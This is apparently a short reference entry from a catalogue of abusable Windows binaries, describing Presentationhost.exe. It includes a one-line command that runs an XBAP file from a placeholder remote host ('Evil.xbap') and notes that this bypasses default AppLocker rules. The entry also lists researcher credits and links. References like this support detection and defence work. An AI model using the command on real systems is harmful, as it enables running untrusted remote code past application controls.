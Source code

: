 ## Presentationhost.exe
```

Presentationhost.exe file:///x.x.x.x/Evil.xbap
Executes the target XAML Browser Application (XBAP) file.
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: True   
* Mitre: None 
   
* Links:   
  * https://medium.com/@jpg.inc.au/applocker-bypass-presentationhost-exe-8c87b2354cd4
  * https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  * https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
   
* File path:   
  * c:\windows\system32\PresentationHost.exe
  * c:\windows\sysWOW64\PresentationHost.exe
   
* Acknowledgement:   
  * Name: Casey Smith
    * Twitter: [@Subtee](https://twitter.com/@Subtee)
    * Blog: https://subt0x11.blogspot.com/
  * Name: JPGInc
    * Twitter: [@JPG1nc](https://twitter.com/@JPG1nc)
    * Blog: https://medium.com/@jpg.inc.au
   
OS:  
